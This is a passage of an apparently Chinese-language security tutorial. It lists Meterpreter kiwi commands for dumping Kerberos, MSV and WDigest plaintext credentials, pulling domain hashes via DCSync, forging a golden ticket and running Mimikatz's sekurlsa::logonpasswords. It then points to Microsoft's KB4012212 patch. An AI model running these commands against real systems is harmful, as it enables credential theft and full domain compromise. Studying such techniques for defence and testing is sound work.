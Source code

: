 （3）列举 Kerberos 凭据  
  
creds_kerberos  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRIHoHd8S5U5ban4aQwFMsATIfZzNicY8S6ySRY0SPDPrtMgOFHKsFarw/640?wx_fmt=png&from=appmsg "")  
  
（4）列举 MSV 缓存凭据  
  
creds_msv  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRaogpq6utE4p5mSShQooL7RMe4uWgpBUHRA6Gmict3Y4qZ3C0Qs8avxg/640?wx_fmt=png&from=appmsg "")  
  
（5）明文密码  
  
creds_wdigest  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRdXc35Gbia7ibraVKyPJnQyJreCh7BIyxBqvWOlA0anx8LCzaR7SJNjqA/640?wx_fmt=png&from=appmsg "")  
  
（6）通过 DCSync 获取域用户哈希  
  
dcsync_ntlm <域名>  
  
（7）创建黄金票据（Golden Ticket）  
  
golden_ticket_create -d <域名> -u <用户名> -s <NTLM哈希> -k  
  
（8）执行 Mimikatz 原生命令  
  
# 通过 kiwi_cmd 执行 Mimikatz 命令  
  
kiwi_cmd sekurlsa::logonpasswords  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkR5VyXj98XIjGq9WsicfX8DR97qCPicc7rc0icn71hHlUrRwS855crtYfZw/640?wx_fmt=png&from=appmsg "")  
## 1.4漏洞补丁更新  
  
目前网上提供补丁下载的基本找不到了，通过查找资料获取微软提供补丁更新的地址：  
  
https://catalog.update.microsoft.com/Search.aspx?q=kb4012212  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRtibHpqEK2S8hVplMFxO0rDyQofSrKKjN1OeC6jeHSAxDW8VNRCEkblw/640?wx_fmt=png&from=appmsg "")  
  
可以针对不同的操作系统进行补丁升级即可。  
  
  

